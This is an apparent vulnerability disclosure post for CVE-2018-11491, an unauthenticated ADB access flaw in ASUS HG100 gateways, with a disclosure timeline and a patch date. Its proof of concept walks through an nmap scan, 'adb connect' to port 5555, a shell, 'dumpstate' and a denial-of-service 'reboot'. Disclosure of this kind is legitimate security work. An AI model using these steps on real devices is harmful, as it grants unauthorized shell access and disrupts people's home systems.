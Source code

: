 ```yaml
---
layout: post
title:  "CVE-2018-11491"
author: Mars Cheng
tags: CVE
---
```


## <center>**ASUS HG100 exists unauthenticated access vulnerability**</center>
#### Description:ASUS HG100 devices with firmware before 1.05.12 allow unauthenticated access, leading to remote command execution.

#### This vulnerability was discovered by **National Center for Cyber Security Technology (NCCST)**

<div style="text-align: center">
<img src="https://i.imgur.com/S5EAPKv.png"/>
</div>
<br>

---
<br>




### <center>Introduction of ASUS HG100 SmartHome GateWay</center>
<div style="text-align: center">
<img src="https://i.imgur.com/xkfNTTu.png"/>
</div>



| Length x width x height | Weight | Wireless connection |
| -------- | -------- | -------- |
| 152 x 67 x 167 mm     | 256g     | WiFi 802.11b/g/n ; ZigBee PRO ; BlueTooth 4.0   |

---

## <center>Proof of Concept</center>



### 1.Confirm IP

```
nmap --scanflags SYN 192.168.0.0/24
```
* Port 5555 open
<div style="text-align: center">
<img src="https://i.imgur.com/c4c7kwM.png"/>
</div>

### 2.Connect port 5555 with ADB
```
adb connect 192.168.0.100
```

<div style="text-align: center">
<img src="https://i.imgur.com/JM7pymJ.png"/>
</div>


```
adb shell
```
<div style="text-align: center">
<img src="https://i.imgur.com/8ur8l5p.png"/>
</div>


```
id
```
<div style="text-align: center">
<img src="https://i.imgur.com/RoryPJv.png"/>
</div>

```
dumpstate
```
* Show system process detail

<div style="text-align: center">
<img src="https://i.imgur.com/8QscCma.png"/>
</div>

### 3.Reboot device and Denial of Service 

```
reboot
```
<div style="text-align: center">
<img src="https://i.imgur.com/qnuaiFg.png"/>
</div>

* Check device status

<div style="text-align: center">
<img src="https://i.imgur.com/za4z9be.png"/>
</div>

### Timeline
*  February 6, 2018 Reported to ASUS Security
*  July 3, 2018 Patch released 


### Reference
1. https://www.asus.com/tw/News/qnEosWKPVDpmOeqL
2. https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-11491
